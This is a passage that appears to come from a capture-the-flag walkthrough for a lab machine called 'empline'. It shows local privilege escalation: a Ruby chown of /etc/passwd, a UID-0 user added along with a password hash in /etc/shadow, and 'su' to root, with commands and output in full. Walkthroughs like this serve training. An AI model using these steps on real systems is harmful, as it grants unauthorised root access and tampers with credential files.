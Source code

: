 ```
(remote) george@empline:/home/george$ echo -n 'File.chown(1002, 1002, "/etc/passwd")' > chown.rb

(remote) george@empline:/home/george$ ruby chown.rb

(remote) george@empline:/home/george$ tail -n 1 /etc/passwd
demo:x:0:0:/tmp:/bin/bash

(remote) george@empline:/home/george$ tail -n 1 /etc/shadow
demo:$6$test$bzcdZcb/7XNcrHf09O9O89Vnd8x5hnOsG3cn8C5JyeBhbCyVhZIJS68.DP2LGUsx/6tpfbjmAcFgnUeUT6j120::0:::::
```

[Understanding the /etc/shadow File](https://linuxize.com/post/etc-shadow-file/)

Once you add a user to ‘passwd’ file and it’s password hash to ‘shadow’ file, you can login now.

```
(remote) george@empline:/home/george$ su demo
Password:

root@empline:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

Once you done with the machine, you have to remove the privileges and user/hash.

